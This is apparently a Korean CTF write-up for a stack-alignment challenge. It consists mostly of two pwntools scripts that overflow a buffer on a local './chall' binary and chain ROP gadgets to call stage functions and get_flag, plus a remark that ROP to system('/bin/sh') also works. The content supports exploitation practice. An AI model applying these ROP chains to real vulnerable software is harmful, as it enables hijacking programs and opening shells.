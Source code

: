 ```jsx

# print("key1 :", hex(key1))
# print("key2 :", hex(key2))

payload = b'A' * 0x10
payload += b'B' * 0x8
payload += p64(pop_rdi) + p64(key1)
payload += p64(ret) + p64(execute_stage1)
# payload += p64(ret) + p64(print_stage_info)

payload += p64(pop_rdi) + p64(key2)
payload += p64(ret) + p64(execute_stage2)
# payload += p64(ret) + p64(print_stage_info)

payload += p64(pop_rdi) + p64(key3)
payload += p64(ret) + p64(get_flag)

p.sendafter(b'Input: ', payload)

p.interactive()
```

```python
#!/usr/bin/python3
from pwn import *

p = process("./chall")
e = ELF("./chall")

pop_rdi = 0x401565
ret = 0x40101a
execute_stage1 = e.symbols['execute_stage1']
execute_stage2 = e.symbols['execute_stage2']
get_flag = e.symbols['get_flag']

p.recvuntil(b"key: ")
stage_key = int(p.recvuntil(b"\n"), 16)
#print(stage_key)

payload = b'A'*0x10 + b'B'*0x8
payload += p64(pop_rdi)+p64(stage_key^0xCAFEBABE)+p64(ret)+p64(execute_stage1)
payload += p64(pop_rdi)+p64(0xCAFEBABE^0xF00DBABE)+p64(ret)+p64(execute_stage2)
payload += p64(pop_rdi)+p64(0xF00DBABE^0x12345678)+p64(ret)+p64(get_flag)

p.sendlineafter(b"Input: ", payload)

p.interactive()
```

- 언인텐 풀이
    - ROP를 이용하여 바로 `system(/bin/sh)` 을 수행하도록 하는 방법도 있다.
        - `chall` 에 `/bin/sh` 문자열이 존재하므로 가능함
    - 참고 [https://velog.io/@rlajunwon/Dreamhack-stack-aligne-test](https://velog.io/@rlajunwon/Dreamhack-stack-aligne-test)
